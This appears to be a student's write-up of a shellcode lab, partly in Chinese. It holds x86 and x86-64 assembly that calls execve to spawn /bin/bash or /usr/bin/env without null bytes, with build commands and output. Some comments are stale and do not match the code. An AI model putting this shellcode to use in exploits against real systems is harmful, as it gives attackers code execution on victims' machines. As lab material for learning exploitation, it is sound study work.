

# Shellcode

## Task 1: Writing Shellcode

### Task 1.a: The Entire Process

### Task 1.b. Eliminating Zeros from the Code

通过先对eax异或，然后对eax低位设置为"h"，实现在不引入0和不用多余的“/”的情况下将`/bin/bash`入栈。

```assembly
section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax 
      mov   al, "h"
      push eax          ; Use 0 to terminate the string
      xor eax, eax
      push "/bas"
      push "/bin"
      mov  ebx, esp     ; Get the string address

      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]
   
      ; For environment variable 
      xor  edx, edx     ; No env variables 

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80

```

### Task 1.c. Providing Arguments for System Calls

```assembly
section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax 
      mov   al, "h"
      push eax
      push "/bas"
      push "/bin"       ; /bin/bash
      mov  ebx, esp     ; Get the string address

      xor  eax, eax 
      mov   ax, "-c"
      push eax       ; -c
      mov  ecx, esp     ; Get the string address

      xor  eax, eax
      mov   ax, "la"
      push eax
      push "ls -"
      mov  edx, esp     ; Get the string address

      ; Construct the argument array argv[]
      xor eax, eax      ; end of agrs
      push eax          ; argv[3] = 0
      push edx          ; argv[2] points to "ls -la"
      push ecx          ; argv[1] points to "-c"
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]
   
      ; For environment variable 
      xor  edx, edx     ; No env variables 

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```



### Task 1.d. Providing Environment Variables for execve()

```assembly
section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax 
      push eax
      push "/env"
      push "/bin"
      push "/usr"       ; /usr/bin/env
      mov  ebx, esp     ; Get the string address

      xor  eax, eax 
      push eax
      mov  edx, esp     ; Get the string address

      ; Construct the argument array argv[]
      xor eax, eax      ; end of agrs
      push eax          ; argv[3] = 0
      push edx          ; argv[2] points to "ls -la"
      push ecx          ; argv[1] points to "-c"
      push ebx          ; argv[0] points "/bin/bash"
      mov  ecx, esp     ; Get the address of argv[]
   
      ; For environment variable 
      push eax
      mov   al, "4"
      push eax
      push "=123"
      push "cccc"
      
      xor  eax, eax
      push eax
      push "5678"
      push "bbb="
      mov  eax, esp     
      xor  eax, eax
      push eax
      push "1234"
      push "aaa="
      xor  eax, eax
      push eax          ; env[3] = 0
      lea  eax, [esp+4]
      push eax          ; address to the "aaa=1234" string
      lea  eax, [esp+20]
      push eax          ; address to the "bbb=5678" string
      lea  eax, [esp+36]
      push eax          ; address to the "cccc=1234" string
      mov  edx, esp     ; Get the address of environment variables

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

```shell
$ nano myenv.s
$ nasm -f elf32 myenv.s -o myenv.o
$ ld -m elf_i386 myenv.o -o myenv
$ ./myenv
cccc=1234
bbb=5678
aaa=1234

```

## Task 2: Using Code Segment

You need to do the followings: (1) Please provide a detailed explanation for each line of the code in mysh2.s, starting from the line labeled one. Please explain why this code would successfully execute the `/bin/sh` program, how the argv[] array is constructed, etc. (2) Please use the technique from mysh2.s to implement a new shellcode, so it executes `/usr/bin/env`, and it prints out the following environment variables:

```
a=11
b=22
```

(1) `call one`后，栈顶存放的是返回地址，即`/bin/sh*AAAABBBB`的地址。此时`pop ebx`即将该字符串地址存入ebx。该字串仅仅是一个占位符，还需要进一步修正。ebx+7设为`0x00`，表示字串的结束。`AAAA`的位置存放ebx的内容，`BBBB`位置设为`0x00000000`。然后将ebx+8（即原来字串中第一个`A`的位置）放入ecx，表示参数的地址。edx置零，表示没有环境变量。最后将eax设为`execve`的系统调用号，通过中断来启动系统调用。

（2）

`myenv2.s`:

```c
section .text
  global _start
    _start:
      BITS 32
      jmp short two

    one:
      pop ebx
      xor eax, eax
      mov [ebx+12], al
      mov [ebx+13], ebx
      mov [ebx+17], eax
      mov [ebx+25], al
      mov [ebx+30], al
      mov [ebx+39], eax
      lea ecx, [ebx+21]
      mov [ebx+31], ecx
      lea ecx, [ebx+26]
      mov [ebx+35], ecx
      lea edx, [ebx+31]
      lea ecx, [ebx+13]
      xor eax, eax
      mov al, 0x0b
      int 0x80

    two:
      call one
      db '/usr/bin/env*AAAABBBBa=11*b=22*XXXXYYYY****';
```


```shell
$ nasm -f elf32 myenv2.s -o myenv2.o
$ ld --omagic -m elf_i386 myenv2.o -o myenv2
$ ./myenv2
a=11
b=22

```


## Task 3: Writing 64-bit Shellcode

`mysh 64.s`:

```assembly
section .text
  global _start
    _start:
      xor  rdx, rdx     ; 3rd arg, stored in rdx
      push rdx
      xor  rax, rax
      mov  al, 'h'
      push rax
      mov  rax, '/bin/bas'
      push rax
      mov  rdi, rsp     ; 1st arg, stored in rdi
      push rdx
      push rdi
      mov  rsi, rsp

      ; Invoke execve()
      xor  rax, rax
      mov  al, 0x3b     ; execve()
      syscall
```

```shell
$ nasm -f elf64 mysh_64.s -o mysh_64.o
$ ld mysh_64.o -o mysh_64
```

